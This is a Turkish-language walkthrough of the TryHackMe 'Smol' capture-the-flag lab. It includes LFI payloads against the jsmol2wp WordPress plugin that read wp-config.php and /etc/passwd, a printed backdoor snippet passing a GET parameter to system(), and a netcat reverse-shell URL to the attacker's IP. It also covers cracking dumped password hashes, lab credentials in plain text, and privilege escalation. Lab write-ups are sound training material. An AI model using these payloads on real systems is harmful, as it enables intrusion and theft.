# TryHackMe-Smol-CTF-Solution
Nmap taraması yaparak başlıyoruz.  
Nmap Taraması:   
Tarama sonuçlarına baktığımızda port 80 ve port 22 açık. Bizim odaklanacağımız port 80 (Apache httpd 2.4.41)  
Şimdi, DNS resolution ayarlaması yapacağız çünkü web sitesine doğru bir şekilde erişip daha fazla bilgi toplamalıyız. nano /etc/hosts komutuyla açılan dosyaya CTF ip ve bu ip'nin yönlendirildiği domain'i yazmalıyız.  
Hosts dosyası:   
Bu işlemlerden sonra web sitemiz açılacaktır. Bilgi edinebiliriz.
Site:   
İncelememiz sonucunda bu sitenin bir Wordpress olduğunu görüyoruz. WPScan toolu ile daha fazla bilgi toplayalım.  
WPScan Taraması:   
Tarama Sonucu:   
Taramanın sonucunda <b>jsmol2wp Versiyon 1.07</b> isimli eklenti tespit edilmiş. Ayrıca birçok potansiyel kullanıcı tespit edilmiş: <b>admin, think, wp, gege, diego, xavi</b> gibi.  
jsmol2wp isimli eklenti için, http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
bu eklentinin bilinen bir Dosya Ekleme Zafiyeti (Local File Inclusion) ve potansiyel olarak başka zafiyetlere sahip olduğunu doğruluyor. Bu payload, sunucudaki wp-config.php dosyasının içeriğini okumaya çalışıyor. Bu dosyada genellikle WordPress veritabanı kimlik bilgileri yani kullanıcı adı, şifre vb. bulunur.
curl:   
curl "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/convert.base64-encode/resource=../../../../wp-config.php" komutuyla directory traversal yapıp wp-config.php dosyasına ulaşmaya çalışıyoruz çünkü kullanıcı adı şifre gibi kritik bilgiler burada tutuluyor. En sonunda ise bu bilgileri base64'e çeviriyoruz ki bilgiler bozulmadan bize ulaşsın.  
İşlemin sonucundaki çıktı anlamsız ve uzun olacak, sorun yok çevireceğiz bunu.  
Base64 Dönüşümü:   
echo "<BASE64_KODLANMIŞ_ÇIKTI>" | base64 -d bu komut ile base64 metin tabanlı şifrelemeyi daha anlaşılır hale getirelim.  
Database Bilgileri:   
Bu bilgileri incelediğimizde Veritabanı <b>kullanıcı adı (DB_USER): wpuser ve veritabanı şifresi (DB_PASSWORD): kbLSF2Vop#lw3rjDZ629*Z%G</b>  
www.smol.thm/wp-admin sitesine giderek elimizdeki kullanıcı adı ve şifreyle giriş yapalım.  
WordPress Paneli:   
Sitede Webmaster Tasks!! isimli bir sayfa var ve bu sayfada birden fazla [IMPORTANT] etiketi var, ancak birinci madde doğrudan kodla ilgili.  
Webmaster Tasks:   
1- [IMPORTANT] Check Backdoors: Verify the SOURCE CODE of "Hello Dolly" plugin as the site's code revision. Bu madde bize şunu söylüyor: "Hello Dolly" eklentisinin kaynak kodunda bir arka kapı yani backdoor olabilirmiş.  
curl "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/convert.base64-encode/resource=../../../../../../../etc/passwd" komutuyla /etc/passwd dosyasına directory traversal işlemi yapıyoruz. Bunun sonucunda kullanıcılarla ilgili çıktıları base64 formatında alacağız.  
Sonra echo "<BASE64_KODLANMIŞ_ÇIKTI>" | base64 -d bu komut ile base64 metin tabanlı şifrelemeyi daha anlaşılır hale getirelim.  
curl ve base64 convert:   
Çıktı:   
Bu kullanıcılar, daha önce Wpscan'in bulduğu kullanıcı adlarını doğruluyor.  
Pano:   
Panoda dikkat çeken bir kısım var: "Activity" bölümü altında "Recently Published" (Son Yayınlananlar) listesi.  

Aug 10th 2023, 2:06 pm: **RCE**  

Aug 10th 2023, 3:05 pm: **SSRF**  

Aug 10th 2023, 2:58 pm: **XSS**  

Bu blog yazıları, sistemin daha önce bu tür güvenlik açıklarına maruz kaldığını gösteriyor. Bizim için en önemlisi ise RCE (Remote Code Execution).  
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php sitesine gidelim.  
Backdoor Kodu:   
Bahsettiğimiz backdoor'un adı Hello Dolly'ydi. Bu sitede WordPress eklentisine ait backdoor kodunu görüyoruz.  
Backdoor Kodu:   
Bu kodların içindeki şu kısıma dikkat edelim. Bunun olayı, kalıcılı erişimi sağlar. Ve base64 decrypt edilince if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } kodu gözükür.  
Terminalimizi açıp dinleme işlemine başlayalım. nc -nvlp 443 komutunu terminalimize girelim. İstediğiniz portu yazabilirsiniz ben 443 yazmayı tercih ettim.  
http://www.smol.thm/wp-admin/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20{YOUR_IP}%20443%20%3E%2Ftmp%2Ff sitesine gidelim. Gittiğinizde terminalinizdeki dinlemeye göz atın, bağlantı kurulmuş olacak.  
<b>NOT:</b> Üstte yazdığımız URL'in açılımı: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.23.200.7 443 >/tmp/f yani reverse shell kodudur. Sistemi kendimize bağlıyoruz.  
Bağlantı:   
Görüldüğü üzere bağlandık, www-data kullanıcısıyız.  
Terminale find / -perm -u=s -type f 2>/dev/null yazalım.  
Find:   
Bu komut, bir Linux sisteminde yetki yükseltmek (privilege escalation) için kullanılabilecek potansiyel zafiyetleri bulmaya yarar. Bu komut, sahibinin yetkisiyle (genellikle root) çalışan tüm dosyaların bir listesini verecektir. Çıktıda standart SUID binary'lerinin (örneğin /usr/bin/sudo, /usr/bin/passwd) yanı sıra, sıra dışı veya özel bir program arıyoruz.  
Mysql Veritabanı bağlantısı:   
mysql -u wpuser -p -D wordpress komutunu çalıştıralım. Parola kısmına daha önce bulduğumuz kbLSF2Vop#lw3rjDZ629*Z%G yazalım.  
SELECT user_login, user_pass FROM wp_users; parametrelerini açılan ekranda girelim.  
Mysql Sorgusu:   
Şimdi yapmamız gereken, bu hash'leri Kali makinemize alıp kırmak ve elde edilen şifreyi kullanarak bir Linux kullanıcısına geçiş yapmaktır. Çektiğimiz hash'ler, WordPress Portable Hash formatındadır (başında $P$B etiketi bulunur). Bu format, MD5 tabanlıdır ve John the Ripper veya Hashcat gibi toollar ile kolayca kırılabilir.  
Bir hash'i(Diego) kali makinemizde hashes.txt olarak kaydedelim ve john ile kıralım.  
John:   
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt komutumuz.  
Parola: sandiegocalifornia  
Kullanıcı Değişimi:   
su - diego komutuyla kullanıcı değiştirelim. Parola sorduğunda ise bulduğumuz "sandiegocalifornia" parolasını yazalım.  
User.txt dosyasından user flag'imizi aldık. Şimdi sıra root flag'i almakta.  
Şimdi aynı işlemleri tek tek bütün kullanıcılar için yapalım. Denemelerim sonucunda xavi kullanıcısının içinde root flag.  
Xavi kullanıcısının parolası: P@ssw0rdxavi@ bu parolayı aynı şekilde su - xavi komutuyla kullanıcı değiştirip yazalım.  
Xavi kullanıcısına geçtikten sonra sudo su komutuyla root yetkileri edinelim.  
Sudo -l Komutu:   
sudo -l komutunu yazalım. Bu komut, kullanıcımızın root yetkisiyle nerelere erişebildiğini gösterir.  
Root Flag:   
root klasörü içinde root.txt dosyasının olduğunu göreceğiz. cat root.txt komutuyla dosyayı okuyup root flag'imizi alıyoruz.  
Okuduğunuz için teşekkür ederim. https://www.linkedin.com/in/albora-dogan-deniz-4a56a21b8/

